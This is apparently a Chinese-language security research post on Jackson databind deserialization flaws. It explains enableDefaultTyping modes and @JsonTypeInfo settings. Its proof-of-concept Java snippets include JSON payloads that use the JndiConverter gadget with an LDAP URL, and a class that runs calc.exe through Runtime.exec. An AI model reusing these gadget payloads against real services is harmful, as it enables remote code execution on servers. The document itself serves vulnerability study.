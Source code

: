# Jackson漏洞原理与检测、利用方式研究
# Jackson简介
前面分析了两个关于 fastjson 的漏洞，这篇文章再提一嘴 Jackson。
实际上这两个JSON处理类库的多数漏洞是可以通用的，原理也就是通过反射实例化对象，在调用构造函数或调用get/set方法时触发敏感操作。Jackson框架被发现存在一个反序列化代码执行漏洞。该漏洞存在于Jackson框架下的enableDefaultTyping方法，通过该漏洞，攻击者可以远程在服务器主机上越权执行任意代码，从而取得该网站服务器的控制权。
满足下面三个条件是可以导致反序列化漏洞：
* 调用了ObjectMapper.enableDefaultTyping()函数，参数为四个类型；
* 反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解；
* 反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解；
## enableDefaultTyping触发反序列化
```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue(jsonString, A.class);

DefaultTyping的几种模式：

/**
    * This value means that only properties that have
    * {@link java.lang.Object} as declared type (including
    * generic types without explicit type) will use default
    * typing.
*/
JAVA_LANG_OBJECT: 只有Object类型属性，才能反序列化为任何实例。
/**
    * Value that means that default typing will be used for
    * properties with declared type of {@link java.lang.Object}
    * or an abstract type (abstract class or interface).
    * Note that this does <b>not</b> include array types.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
OBJECT_AND_NON_CONCRETE: 包含上述 JAVA_LANG_OBJECT 的特性，并且对于接口类型定义的属性，可以反序列化为任意实现类实例，不指定的时候默认使用该类型。
/**
    * Value that means that default typing will be used for
    * all types covered by {@link #OBJECT_AND_NON_CONCRETE}
    * plus all array types for them.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
 NON_CONCRETE_AND_ARRAYS: 包含上述 JAVA_LANG_OBJECT 和 OBJECT_AND_NON_CONCRETE 的特性，增加了数组支持
/**
    * Value that means that default typing will be used for
    * all non-final types, with exception of small number of
    * "natural" types (String, Boolean, Integer, Double), which
    * can be correctly inferred from JSON; as well as for
    * all arrays of non-final types.
    *<p>
    * Since 2.4, this does NOT apply to {@link TreeNode} and its subtypes.
*/
 NON_FINAL: 包含上述所有特性，除了final定义的属性不能反序列化，其他都可以
```
## JsonTypeInfo触发反序列化
在将多态类型进行JSON序列化后，Jackson无法在反序列化期间找出正确的类型，Jackson里使用@JsonTypeInfo注解处理多态类型的序列化和反序列化。此注解用于序列化有关多态实例的实际类的信息，以便Jackson可以知道要反序列化的子类型。有两种方式添加注解：

（1）@JsonTypeInfo注解加到父类定义上
```java
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
public class BaseClass {
}
```
（2）@JsonTypeInfo注解加到包含父类的成员变量上面
```java
//@JsonTypeInfo注解不仅可以加在父类的定义上面，也可以加到包含父类的成员变量上面
public class Test {
  @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
  private List<BaseClass> bean;
}
```
|  配置   | 说明  |
|  ----  | ----  |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)  | 字如其名，和没设置一样. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)  | Json多了@class字段，用于标明相关属性的包和类名。使用 @JsonTypeInfo(use = Id.CLASS) 注解的反序列化能利用，但必须和定义类型一致. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS) | Json多了@c字段，用于标明相关属性的包和类名。使用 @JsonTypeInfo(use = Id.MINIMAL_CLASS) 注解的反序列化能利用，但必须和定义类型一致. |
| @JsonTypeInfo(use = JsonTypeInfo.Id.NAME) | Json多了@type字段，用于标明相关属性的类名(无包) |
| @JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM) | 用户自定义，需要手写解析器|
||

### **JsonTypeInfo.Id.CLASS利用**
```java
class A2 {
    private int i = 1;
    @JsonTypeInfo(use = Id.CLASS)
    private Object object;
    @JsonTypeInfo(use = Id.CLASS)
    private InterfaceA aa;
}
// 存在Object属性且注解为Id.CLASS
ObjectMapper mapper = new ObjectMapper();
 json = "{\"i\":1,\"object\":{\"@class\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}}";
a = mapper.readValue(json, A2.class);
System.out.println(a.getAa().getClass().getName());

// 存在继承父类或接口InterfaceA的属性且注解为Id.CLASS
json = "{\"i\":1,\"aa\":{\"@class\":\"com.jackson.test.JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A2.class);

class AA implements InterfaceA {
    int xx;
    public AA() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
### **JsonTypeInfo.Id.MINIMAL_CLASS利用**
```java
class A3 {
    private int i = 1;
    @JsonTypeInfo(use = Id.MINIMAL_CLASS)
    private Object object;
    @JsonTypeInfo(use = Id.MINIMAL_CLASS)
    private InterfaceA aa;
}
// 存在Object属性且注解为Id.CLASS
ObjectMapper mapper = new ObjectMapper();
 json = "{\"i\":1,\"object\":{\"@c\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}}";
a = mapper.readValue(json, A3.class);
System.out.println(a.getAa().getClass().getName());

// 存在继承父类或接口InterfaceA的属性且注解为Id.CLASS
json = "{\"i\":1,\"aa\":{\"@c\":\"com.jackson.test.JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A3.class);

class AA implements InterfaceA {
    int xx;
    public AA() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```
### **`JsonTypeInfo.Id.NAME`**
```java
 class A4 {
    private int i = 1;
    @JsonTypeInfo(use = Id.NAME)
    private Object object;
    @JsonTypeInfo(use = Id.NAME)
    private AA subaa;
    @JsonTypeInfo(use = Id.NAME)
    private InterfaceA aa;
 }
//反序列化失败，并不能反序列化任意类
json = "{\"i\":1,\"object\":{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"},\"aa\":null}";
a = mapper.readValue(json, A4.class);
//反序列化失败，并不能反序列化继承InterfaceA的子类AA
json = "{\"i\":1,\"aa\":{\"@type\":\"JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A4.class);
//反序列化成功，AA
json = "{\"i\":1,\"subaa\":{\"@type\":\"JsonTypeInfoTest$AA\",\"xx\":2}}";
a = mapper.readValue(json, A4.class);
```
### **JsonTypeInfo.Id.CUSTOM**
```java
class A5 {
    private int i = 1;
    @JsonTypeInfo(use = Id.CUSTOM)
    private Object object;
    private InterfaceA aa;
}
// 直接反序列化失败，需要自定义转换器
String json = "{\"i\":1,\"object\":{\"@type\":\"JsonTypeInfoTest$B\",\"i\":2},\"aa\":null}";
mapper.readValue(json,A5.class);
```
# 参考
https://blog.csdn.net/qq_34101364/article/details/111996656

http://pirogue.org/2018/01/12/jackson-databind-rce/

https://b1ue.cn/archives/189.html

http://blog.nsfocus.net/jackson-framework-java-vulnerability-analysis/

https://xz.aliyun.com/t/8012

https://xz.aliyun.com/t/9331